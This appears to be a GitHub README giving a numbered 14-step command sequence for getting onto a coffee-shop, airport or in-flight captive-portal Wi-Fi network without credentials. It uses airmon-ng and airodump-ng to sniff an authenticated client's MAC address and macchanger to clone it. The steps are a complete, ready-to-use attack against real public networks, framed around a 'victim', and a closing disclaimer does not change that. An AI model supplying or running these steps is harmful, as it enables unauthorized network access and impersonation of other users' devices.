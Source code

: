 ## HOW TO SET YOUR MAC ADDRESS OF A WIFI/NETWORK SAME AS OF YOUR VICTIM TO CONNECT TO A CAPTIVE PORTAL AT COFFEE SHOP/AIRPORT/AEROPLANE/PUBLIC WIFI TO ACCESS FREE WIFI WITHOUT ENTERING USERNAME-PASSWORD. 


STEP 1-  sudo ip a 

STEP 2-  sudo ifconfig wlan1 down  (type the interface of the network card of which you want to change mac address)

STEP 3-  sudo macchanger -r wlan1  (-r = to change the mac address randomly)

STEP 4-  sudo ifconfig wlan1 up

STEP 5-  sudo airmon-ng start wlan1

STEP 6-  sudo ip a  (to check that the network interface in monitor mode)

STEP 7-  sudo airodump-ng wlan1mon 

STEP 8-  sudo airodump-ng wlan1mon -bssid 00:00:00:00:00:00 -c 0 (-c =? .....--bssid = ? enter the bssid/mac address of the victim free captive portal wifi )

STEP 9-  Now you will get all the clients that are on that network you can choose one and then copy the MAC Address of that client.

STEP 10- sudo ifconfig wlan0 down (now enter the second network interface so that we can change the mac address of the same )

STEP 11-  sudo macchanger -m 00:00:00:00:00:00 wlan0 (-m = to specify the mac address you want, enter the address here which you copied from the victim)

STEP 12-  sudo ifconfig wlan0 up

STEP 13-  sudo ip a

Step 14- now connect to the free wifi/captive portal and try to access enter it will not ask you to enter the username/password to access the wifi.

# Disclamer:
The information provided herein strictly prohibits and disclaims any involvement in cracking WiFi passwords. Users are hereby informed that such activities are illegal and against ethical guidelines. 
This platform does not endorse, support, or encourage any form of unauthorized access to computer systems or networks. 
Users are urged to comply with all applicable laws and regulations and to utilize their knowledge and skills for legal and ethical purposes only. 
The platform, its creators, and contributors cannot be held responsible for any misuse or illegal application of the information provided.
















____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



